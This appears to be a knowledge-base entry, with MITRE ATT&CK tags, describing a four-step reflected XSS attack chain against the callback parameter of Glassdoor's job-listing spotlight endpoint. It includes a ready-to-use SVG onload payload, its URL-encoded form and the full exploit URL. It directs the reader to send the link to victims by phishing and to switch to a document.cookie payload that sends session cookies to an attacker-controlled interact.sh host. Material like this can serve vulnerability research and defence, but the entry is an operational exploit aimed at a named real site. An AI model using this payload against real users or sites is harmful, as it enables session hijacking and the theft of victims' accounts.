

---
tags:
  - xss
  - reflected-xss
  - javascript-execution
  - session-hijacking
  - phishing
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Craft-and-Encode-Malicious-SVG-Payload-for-XSS]]'
  - '[[procedures/Inject-Payload-into-Callback-Parameter]]'
  - '[[procedures/Trigger-Payload-Execution-via-Victim-Click]]'
  - '[[procedures/Modify-Payload-for-Cookie-Exfiltration]]'
step_count: 4
techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
  - '[[Steal Web Session Cookie]]'
updated_at: '2025-12-13T23:52:49.483Z'
description: >-
  A multi-step attack exploiting a reflected XSS vulnerability in the callback
  parameter of Glassdoor's /job-listing/spotlight endpoint to inject malicious
  SVG payloads, execute JavaScript in victims' browsers, and exfiltrate session
  cookies or domain information via phishing links.
skill_level: intermediate
impact_level: high
id: 10196d7a-4add-4d63-9505-c4a12fa69eeb
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
  - '[[Steal Web Session Cookie]]'
---
# Reflected XSS in Glassdoor Job Spotlight Callback Parameter for Session Cookie Theft

This attack chain demonstrates a reflected cross-site scripting (XSS) vulnerability in Glassdoor's job listing spotlight endpoint. By injecting a malicious SVG payload into the 'callback' parameter, attackers can execute arbitrary JavaScript in the victim's browser context when they visit a crafted phishing link. The payload exfiltrates domain information or non-HttpOnly session cookies to an attacker-controlled server, enabling session hijacking or further phishing attacks. The vulnerability arises from unsanitized reflection of user input in the HTML/JSONP response, allowing HTML injection via SVG elements.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform (Glassdoor job listing pages)
- No specific ports or services required beyond standard HTTPS (443)
- Public access to https://www.glassdoor.com/job-listing/spotlight

### Initial Access Requirements

- No credentials needed
- Attacker must host a receiving server (e.g., interact.sh) for exfiltration
- Victim must click a phishing link to the malicious URL

## Detailed Attack Procedures

### Step 1: Craft and Encode Malicious SVG Payload
procedure: [[procedures/Craft-and-Encode-Malicious-SVG-Payload-for-XSS]]

**Objective**: Create a URL-encoded SVG payload that injects HTML and executes JavaScript to exfiltrate the victim's domain.

**Instructions**: Use Burp Suite to craft the payload `<!DOCTYPE html><html><svg/onload=location/**/='https://c3rqmwkyedf0000r3mr0gbhm4scyyyyyb.interact.sh/'+document.domain></html><!--` and URL-encode it to `%3C%21%44%4F%43%54%59%50%45%20%68%74%6D%6C%3E%3C%68%74%6D%6C%3E%3C%73%76%67%2F%6F%6E%6C%6F%61%64%3D%6C%6F%63%61%74%69%6F%6E%2F%2A%2A%2F%3D%27%68%74%74%70%73%3A%2F%2F%63%33%72%71%6D%77%6B%79%65%64%66%30%30%30%30%72%33%6D%72%30%67%62%68%6D%34%73%63%79%79%79%79%79%62%2E%69%6E%74%65%72%61%63%74%2E%73%68%2F%27%2B%64%6F%63%75%6D%65%6E%74%2E%64%6F%6D%61%69%6E%3E%3C%2F%68%74%6D%6C%3E%3C%21%2D%2D`. This payload uses an SVG onload attribute to redirect to the attacker's server with the document.domain appended.

**Expected Output**: Encoded payload ready for insertion into the URL.

**Success Indicators**:
- Payload encodes without errors in Burp Suite
- Decoding the payload renders valid SVG HTML

### Step 2: Inject Payload into Callback Parameter
procedure: [[procedures/Inject-Payload-into-Callback-Parameter]]

**Objective**: Send a request to the vulnerable endpoint with the encoded payload in the callback parameter to confirm reflection.

**Instructions**: Construct the full URL as `https://www.glassdoor.com/job-listing/spotlight?slots=spotlight-mrec-lf-display&gdBaseUrl=first%2D%2D%3E&adOrderIds=second&callback=[encoded payload]`. Intercept and send the request using Burp Suite to observe the response.

**Expected Output**: Server response reflects the decoded payload in the HTML/JSONP output without sanitization.

**Success Indicators**:
- Payload appears in the page source
- No encoding errors or blocking by the server

### Step 3: Trigger Payload Execution via Victim Click
procedure: [[procedures/Trigger-Payload-Execution-via-Victim-Click]]

**Objective**: Distribute the malicious link to a victim, causing JavaScript execution upon page load.

**Instructions**: Share the crafted URL via phishing email or social engineering. When the victim visits, the page loads, decodes the callback, injects the SVG, and triggers the onload event, sending a GET request to the attacker's server with the victim's domain in the URI and referer header showing the Glassdoor URL.

**Expected Output**: Incoming request on attacker's server (e.g., interact.sh) with URI like `/glassdoor.com` and referer header.

**Success Indicators**:
- Server logs show exfiltrated domain
- Referer confirms origin from Glassdoor

### Step 4: Modify Payload for Cookie Exfiltration
procedure: [[procedures/Modify-Payload-for-Cookie-Exfiltration]]

**Objective**: Adapt the payload to steal non-HttpOnly session cookies instead of domain information.

**Instructions**: Update the payload to `<!DOCTYPE html><html><svg/onload=location/**/='https://c3rqmwkyedf0000r3mr0gbhm4scyyyyyb.interact.sh/'+document.cookie></html><!--`, re-encode it, and repeat Steps 2-3 with the new version.

**Expected Output**: Exfiltration request URI containing cookie values, e.g., `/sessionid=abc123`.

**Success Indicators**:
- Cookies appear in the exfiltrated URI
- Attacker can use stolen cookies for session hijacking

## Attack Chain Summary

### Key Achievements

1. Successful injection and reflection of malicious HTML/SVG in Glassdoor's endpoint
2. Arbitrary JavaScript execution in victim browsers via phishing links
3. Exfiltration of domain info and non-HttpOnly session cookies to attacker server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
